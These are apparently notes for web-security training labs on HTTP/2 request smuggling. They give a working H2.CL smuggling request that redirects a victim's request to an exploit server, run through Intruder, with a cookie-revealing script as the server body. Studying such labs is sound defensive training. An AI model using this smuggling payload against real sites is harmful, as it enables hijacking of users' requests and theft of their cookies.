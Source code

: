 
# Lab: H2.CL request smuggling

```http
POST / HTTP/2
Host: 0adb001f0401c5c780ff68fa00b40070.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0aa500a90404c541803367d301060090.exploit-server.net
Content-Length: 5

x=1
```

Run with Intruder 1 request/time

Exploit server body:

```js
alert(document.cookie)
```

# Lab: HTTP/2 request smuggling via CRLF injection

